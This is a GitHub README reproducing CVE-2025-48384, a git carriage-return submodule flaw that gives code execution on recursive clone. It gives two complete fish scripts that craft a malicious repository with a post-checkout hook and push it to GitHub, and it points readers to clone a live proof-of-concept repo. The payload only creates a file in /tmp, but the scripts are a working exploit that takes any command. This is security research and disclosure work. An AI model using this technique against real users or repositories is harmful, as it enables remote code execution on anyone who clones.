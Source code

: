 # CVE-2025-48384: Breaking git with a carriage return and cloning RCE

Reproduction from <https://dgl.cx/2025/07/git-clone-submodule-cve-2025-48384>. All credits to David Leadbeater.

This is a basic reproduction attempt of the vulnerability.

To trigger, do `git clone --recursive https://github.com/acheong08/CVE-2025-48384` on a vulnerable git version and you'll find a `/tmp/fishsucks` file suddenly appearing.

I was able to reproduce on git version 2.50.0.

Below is the script used to test locally.

```fish
#!/usr/bin/fish
git init sub
echo '#!/usr/bin/env bash
touch /tmp/fishsucks
' > sub/post-checkout
chmod +x sub/post-checkout
git -C sub add post-checkout
git -C sub commit -m hook

git init repo
git -C repo -c protocol.file.allow=always submodule add "$PWD/sub" sub
git -C repo mv sub (printf "sub\r")

git config unset -f repo/.gitmodules submodule.sub.path
printf "\tpath = \"sub\r\"\n" >> repo/.gitmodules

git config unset -f repo/.git/modules/sub/config core.worktree
printf "[core]\n\tworktree = \"../../../sub\r\"\n" >> repo/.git/modules/sub/config

ln -s .git/modules/sub/hooks repo/sub
git -C repo add -A
git -C repo commit -m submodule

git -c protocol.file.allow=always clone --recurse-submodules repo bad-clone
not test -f "/tmp/fishsucks"
rm -rf ./repo ./sub ./bad-clone
```

Modified script for pushing to Github:

```fish
#!/usr/bin/fish
if not test -d sub
    git clone https://github.com/acheong08/totallynotsuspicious.git sub
else
    git -C sub pull
end

echo '#!/usr/bin/env bash
touch /tmp/fishsucks
' > sub/post-checkout
chmod +x sub/post-checkout
git -C sub add post-checkout
git -C sub commit -m hook; or true
git -C sub push origin HEAD

rm -rf repo
git init repo
git -C repo -c protocol.file.allow=always submodule add https://github.com/acheong08/totallynotsuspicious.git sub
git -C repo mv sub (printf "sub\r")

git config unset -f repo/.gitmodules submodule.sub.path
printf "\tpath = \"sub\r\"\n" >> repo/.gitmodules

git config unset -f repo/.git/modules/sub/config core.worktree
printf "[core]\n\tworktree = \"../../../sub\r\"\n" >> repo/.git/modules/sub/config

ln -s .git/modules/sub/hooks repo/sub
git -C repo add -A
git -C repo commit -m submodule

git -c protocol.file.allow=always clone --recurse-submodules repo bad-clone
not test -f "/tmp/fishsucks"
```
